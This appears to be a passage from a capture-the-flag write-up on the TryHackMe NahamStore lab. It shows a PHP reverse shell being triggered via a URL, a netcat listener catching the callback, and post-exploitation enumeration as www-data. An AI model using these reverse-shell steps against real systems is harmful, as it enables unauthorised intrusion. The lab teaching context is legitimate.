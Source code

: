 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/NahamStore/images/a57.png)

**Trigger the PHP reverse shell via browsing `marketing.nahamstore.thm/8d1952ba2b3c6dcd76236f090ab8642c`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/NahamStore/images/a58.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# nc -lnvp 443        
listening on [any] 443 ...
connect to [10.18.61.134] from (UNKNOWN) [10.10.46.5] 50764
Linux af11c847d4c7 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 08:50:30 up  4:11,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami;hostname;id;ip a
www-data
af11c847d4c7
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[...]
8: eth0@if9: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:04 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.4/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
$ 
```
